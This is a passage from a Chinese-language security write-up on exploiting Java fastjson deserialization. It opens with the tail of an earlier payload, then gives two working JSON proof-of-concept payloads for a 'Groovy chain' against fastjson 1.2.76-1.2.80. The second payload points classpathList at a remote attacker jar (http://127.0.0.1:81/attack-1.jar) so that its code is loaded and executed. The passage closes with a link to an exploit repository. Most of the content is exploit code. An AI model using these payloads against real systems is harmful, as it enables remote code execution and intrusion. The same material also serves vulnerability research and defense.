 ```
        "infl":
        {
            "input":
            {
                "array":"eJzTUtCCQoWkxOIMBd1MBTs1Bf2U1DL9kuQCfUMDPWMDPQM9CxN9SyBQMLBTM1TgAgBAXQuq",
                "limit":1999
            }
        },
        "bufLen":1048576
    },
    "protocolVersion":1
}
```

最后还要修改

### 3.2.7 Groovy 链

该链普遍认为是fastjson1.2.76-1.2.80较为可能达成的链子。

poc:

1、




```
{
    "@type":"java.lang.Exception",
    "@type":"org.codehaus.groovy.control.CompilationFailedException",
    "unit":{}
}
```

2、




```
{
    "@type":"org.codehaus.groovy.control.ProcessingUnit",
    "@type":"org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
    "config":{
        "@type":"org.codehaus.groovy.control.CompilerConfiguration",
        "classpathList":"http://127.0.0.1:81/attack-1.jar"
    }
}
```

还有其他链可以参考下文

# **三、漏洞利用**

[https://github.com/safe6Sec/Fastjson](https://github.com/safe6Sec/Fastjson)
